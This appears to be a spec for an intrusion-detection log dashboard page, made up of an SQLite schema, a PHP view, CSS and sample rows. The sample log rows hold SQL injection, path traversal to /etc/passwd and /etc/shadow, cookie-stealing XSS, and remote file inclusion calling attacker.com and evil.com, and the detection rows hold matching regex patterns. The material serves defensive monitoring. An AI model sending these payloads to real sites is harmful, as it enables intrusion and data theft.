

Screenshot of /alertDisplayPage/index.php (upper part) with the database file from the repository (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE logs (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                log_text TEXT NOT NULL,
                timestamp TEXT NOT NULL,
                detected_at DATETIME DEFAULT CURRENT_TIMESTAMP,
                is_suspicious INTEGER DEFAULT 0
            );

CREATE TABLE attack_detections (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                log_id INTEGER NOT NULL,
                attack_type TEXT NOT NULL,
                attack_details TEXT,
                pattern TEXT,
                FOREIGN KEY (log_id) REFERENCES logs(id)
            );

### alertDisplayPage/index.php (the view, shortened to what this page needs)
<?php
$dbPath = __DIR__ . '/logs.db';
$db = new SQLite3($dbPath);
$totalCount = 0;
$page = isset($_GET['page']) ? intval($_GET['page']) : 1;
$logsPerPage = 50;
$offset = ($page - 1) * $logsPerPage;
$tableExistsQuery = $db->query("SELECT name FROM sqlite_master WHERE type='table' AND name='logs'");
$tableExists = $tableExistsQuery && $tableExistsQuery->fetchArray();
if ($tableExists) {
    $totalCountResult = $db->query("SELECT COUNT(*) as count FROM logs");
    if ($totalCountResult) {
        $totalCount = $totalCountResult->fetchArray(SQLITE3_ASSOC)['count'];
        $query = "SELECT id, log_text, timestamp, detected_at, is_suspicious
                  FROM logs
                  ORDER BY detected_at DESC, id DESC
                  LIMIT $logsPerPage OFFSET $offset";
        $result = $db->query($query);
    } else {
        $error = "Error querying the database: " . $db->lastErrorMsg();
        $result = false;
    }
} else {
    $error = "The logs table does not exist yet. Please add some logs first.";
    $result = false;
}
function getAttackDetections($db, $logId) {
    $tableExistsQuery = $db->query("SELECT name FROM sqlite_master WHERE type='table' AND name='attack_detections'");
    $tableExists = $tableExistsQuery && $tableExistsQuery->fetchArray();
    $query = "SELECT attack_type, attack_details, pattern
              FROM attack_detections
              WHERE log_id = :log_id";
    $stmt = $db->prepare($query);
    $stmt->bindValue(':log_id', $logId, SQLITE3_INTEGER);
    $result = $stmt->execute();
    $detections = [];
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
        $detections[] = $row;
    }
    return $detections;
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <div class="container">
        <header>
            <h1>Log Analyzer</h1>
            <p class="subtitle">System Log Analysis and Intrusion Detection</p>
        </header>
        <div class="summary">
            <div class="summary-item">
                <span class="label">Total Logs:</span>
                <span class="value"><?php echo number_format($totalCount); ?></span>
            </div>
            <div class="summary-item">
                <?php
                $suspiciousCount = 0;
                $suspiciousPercentage = 0;
                if ($tableExists) {
                    $suspiciousCountResult = $db->query("SELECT COUNT(*) as count FROM logs WHERE is_suspicious = 1");
                    if ($suspiciousCountResult) {
                        $suspiciousCount = $suspiciousCountResult->fetchArray(SQLITE3_ASSOC)['count'];
                        $suspiciousPercentage = ($totalCount > 0) ? round(($suspiciousCount / $totalCount) * 100, 2) : 0;
                    }
                }
                ?>
                <span class="label">Suspicious Logs:</span>
                <span class="value"><?php echo number_format($suspiciousCount); ?> (<?php echo $suspiciousPercentage; ?>%)</span>
            </div>
        </div>
        <div class="log-container">
            <h2>Recent Logs</h2>
            <?php if ($result && $result->numColumns() > 0): ?>
                <div class="logs">
                    <?php while ($row = $result->fetchArray(SQLITE3_ASSOC)): ?>
                        <div class="log-entry <?php echo $row['is_suspicious'] ? 'suspicious' : 'normal'; ?>">
                            <div class="log-header">
                                <span class="timestamp"><?php echo htmlspecialchars($row['timestamp']); ?></span>
                                <span class="detected-at">Detected: <?php echo htmlspecialchars($row['detected_at']); ?></span>
                                <?php if ($row['is_suspicious']): ?>
                                    <span class="alert-badge">SUSPICIOUS</span>
                                <?php endif; ?>
                            </div>
                            <div class="log-content">
                                <pre><?php echo htmlspecialchars($row['log_text']); ?></pre>
                            </div>
                            <?php if ($row['is_suspicious']): ?>
                                <?php $detections = getAttackDetections($db, $row['id']); ?>
                                <?php if (!empty($detections)): ?>
                                    <div class="detections">
                                        <h4>Detected Patterns:</h4>
                                        <ul>
                                            <?php foreach ($detections as $detection): ?>
                                                <li>
                                                    <div class="detection-type"><?php echo htmlspecialchars($detection['attack_type']); ?></div>
                                                    <div class="detection-details"><?php echo htmlspecialchars($detection['attack_details']); ?></div>
                                                    <div class="detection-pattern">
                                                        <span class="pattern-label">Detected Pattern:</span>
                                                        <code class="highlight-regex"><?php echo htmlspecialchars($detection['pattern']); ?></code>
                                                    </div>
                                                </li>
                                            <?php endforeach; ?>
                                        </ul>
                                    </div>
                                <?php endif; ?>
                            <?php endif; ?>
                        </div>
                    <?php endwhile; ?>
                </div>
            <?php else: ?>
                <div class="no-logs">No logs found in the database.</div>
            <?php endif; ?>
        </div>
    </div>
</body>
</html>

### alertDisplayPage/style.css (style rules this page uses)
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; line-height: 1.6; color: #333; background-color: #f5f5f5; padding: 20px; }
.container { max-width: 1200px; margin: 0 auto; background-color: #fff; border-radius: 8px; box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1); overflow: hidden; }
header { background-color: #2c3e50; color: #fff; padding: 20px; text-align: center; }
header h1 { font-size: 2.5rem; margin-bottom: 5px; }
.subtitle { font-size: 1rem; opacity: 0.8; }
.summary { display: flex; flex-wrap: wrap; justify-content: space-around; background-color: #ecf0f1; padding: 15px; margin-bottom: 20px; border-bottom: 1px solid #ddd; }
.summary-item { text-align: center; padding: 10px 20px; }
.summary-item .label { font-weight: bold; display: block; margin-bottom: 5px; color: #7f8c8d; }
.summary-item .value { font-size: 1.5rem; font-weight: bold; color: #2c3e50; }
.log-container { padding: 20px; }
.log-container h2 { font-size: 1.8rem; margin-bottom: 20px; color: #2c3e50; border-bottom: 2px solid #ecf0f1; padding-bottom: 10px; }
.logs { display: flex; flex-direction: column; gap: 15px; }
.log-entry { border: 1px solid #ddd; border-radius: 6px; overflow: hidden; transition: box-shadow 0.3s ease; }
.log-entry.normal { background-color: #fff; }
.log-entry.suspicious { background-color: #fff8f8; border-color: #e74c3c; }
.log-header { padding: 10px 15px; background-color: #f9f9f9; border-bottom: 1px solid #ddd; display: flex; justify-content: space-between; align-items: center; flex-wrap: wrap; gap: 10px; }
.log-entry.suspicious .log-header { background-color: #fadbd8; border-color: #e74c3c; }
.timestamp { font-weight: bold; color: #2c3e50; }
.detected-at { color: #7f8c8d; font-size: 0.9rem; }
.alert-badge { background-color: #e74c3c; color: white; padding: 3px 8px; border-radius: 4px; font-size: 0.8rem; font-weight: bold; }
.log-content { padding: 15px; overflow-x: auto; }
.log-content pre { white-space: pre-wrap; word-wrap: break-word; font-family: monospace; font-size: 0.9rem; background-color: #f8f9fa; padding: 10px; border-radius: 4px; border: 1px solid #eee; }
.detections { padding: 15px; background-color: #fff0f0; border-top: 1px solid #ffcdd2; }
.detections h4 { margin-bottom: 10px; color: #c0392b; }
.detections ul { list-style-type: none; }
.detections li { margin-bottom: 15px; padding-bottom: 15px; border-bottom: 1px dashed #ffcdd2; }
.detections li:last-child { margin-bottom: 0; padding-bottom: 0; border-bottom: none; }
.detection-type { font-weight: bold; color: #c0392b; margin-bottom: 5px; }
.detection-details { margin-bottom: 5px; font-style: italic; color: #e74c3c; }
.detection-pattern { font-size: 0.9rem; color: #7f8c8d; margin-top: 8px; padding: 6px 10px; background-color: #f9f2f4; border-radius: 4px; }
.pattern-label { font-weight: bold; color: #c0392b; }
.detection-pattern code { background-color: #ffe6e6; padding: 2px 5px; border-radius: 3px; font-family: monospace; border: 1px solid #ffcccc; color: #c0392b; display: inline-block; margin-top: 5px; word-break: break-all; }
.highlight-regex { font-family: monospace; background-color: #ffe6e6; padding: 3px 6px; border-radius: 3px; border: 1px solid #ffcccc; color: #c0392b; font-size: 0.9rem; word-break: break-all; display: inline-block; margin-top: 4px; }

### rows the page displays
logs: timestamp "2025-05-16 09:01:38", detected_at "2025-05-16 09:01:38", log_text "127.0.0.1 - - [16/May/2025:18:01:36 +0900] \"GET /?action=logout&sessionid=abcdef1234567890 HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 09:01:28", detected_at "2025-05-16 09:01:28", log_text "127.0.0.1 - - [16/May/2025:18:01:21 +0900] \"GET /?input=%27%20OR%20%27%27=%27 HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 09:01:08", detected_at "2025-05-16 09:01:08", is_suspicious "SUSPICIOUS", log_text "127.0.0.1 - - [16/May/2025:18:01:06 +0900] \"GET /?lang=../../../../etc/passwd HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
attack_detections: attack_type "디렉토리 탐색", attack_details "`../` 시퀀스 (대소문자 무시)", pattern "/\\.\\.\\//i"
attack_detections: attack_type "디렉토리 탐색", attack_details "`/etc/passwd` 또는 `win.ini`와 같은 민감한 파일 경로 (대소문자 무시)", pattern "/\\/(etc\\/(passwd|shadow|hosts|group)|proc\\/self\\/environ)|\\\\(windows\\\\system32\\\\|win\\.ini|boot\\.ini|system32)/i"
logs: timestamp "2025-05-16 09:00:58", detected_at "2025-05-16 09:00:58", is_suspicious "SUSPICIOUS", log_text "127.0.0.1 - - [16/May/2025:18:00:51 +0900] \"GET /?redirect=window.location=%27http://attacker.com%27 HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
attack_detections: attack_type "XSS (크로스사이트 스크립팅)", attack_details "`window.location` 조작 (대소문자 무시)", pattern "/\\b(window\\.location|location\\.href|location\\.replace)/i"
logs: timestamp "2025-05-16 09:00:38", detected_at "2025-05-16 09:00:38", is_suspicious "SUSPICIOUS", log_text "127.0.0.1 - - [16/May/2025:18:00:36 +0900] \"GET /?include=http://attacker.com/malicious_script.php HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 09:00:28", detected_at "2025-05-16 09:00:28", is_suspicious "SUSPICIOUS", log_text "127.0.0.1 - - [16/May/2025:18:00:21 +0900] \"GET /?lang=../../../../etc/passwd HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 09:00:08", detected_at "2025-05-16 09:00:08", log_text "127.0.0.1 - - [16/May/2025:18:00:06 +0900] \"GET /?id=1%27%20OR%20%271%27=%271 HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 08:59:58", detected_at "2025-05-16 08:59:58", log_text "127.0.0.1 - - [16/May/2025:17:59:51 +0900] \"GET /?cmd=ping%20-c%204%20127.0.0.1 HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 08:59:38", detected_at "2025-05-16 08:59:38", is_suspicious "SUSPICIOUS", log_text "127.0.0.1 - - [16/May/2025:17:59:36 +0900] \"GET /?page=http://evil.com/exploit.php?param=%2Fetc%2Fpasswd HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 08:59:28", detected_at "2025-05-16 08:59:28", is_suspicious "SUSPICIOUS", log_text "127.0.0.1 - - [16/May/2025:17:59:21 +0900] \"GET /?input=%3Cimg%20src=%27x%27%20onerror=%27alert(document.cookie)%27%3E HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 08:59:07", detected_at "2025-05-16 08:59:07", is_suspicious "SUSPICIOUS", log_text "127.0.0.1 - - [16/May/2025:17:59:06 +0900] \"GET /?input=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 08:58:57", detected_at "2025-05-16 08:58:57", log_text "127.0.0.1 - - [16/May/2025:17:58:51 +0900] \"GET /?search=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E%3Cimg%20src=x%20onerror=alert(%27XSS%27)%3E HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 08:58:37", detected_at "2025-05-16 08:58:37", log_text "127.0.0.1 - - [16/May/2025:17:58:36 +0900] \"GET /?search=%27%20OR%20%271%27%3D%271 HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 08:58:27", detected_at "2025-05-16 08:58:27", is_suspicious "SUSPICIOUS", log_text "127.0.0.1 - - [16/May/2025:17:58:21 +0900] \"GET /?file=../../etc/shadow HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 08:58:07", detected_at "2025-05-16 08:58:07", log_text "127.0.0.1 - - [16/May/2025:17:58:06 +0900] \"GET /?search=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E%3Cimg%20src=x%20onerror=alert(%27XSS%27)%3E HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""
logs: timestamp "2025-05-16 08:57:57", detected_at "2025-05-16 08:57:57", log_text "127.0.0.1 - - [16/May/2025:17:57:51 +0900] \"GET /?action=delete_user&userid=12345 HTTP/1.1\" 200 1484 \"-\" \"axios/1.9.0\""

### other values shown
$totalCount "42"
$suspiciousCount "18"
$suspiciousPercentage "42.86"
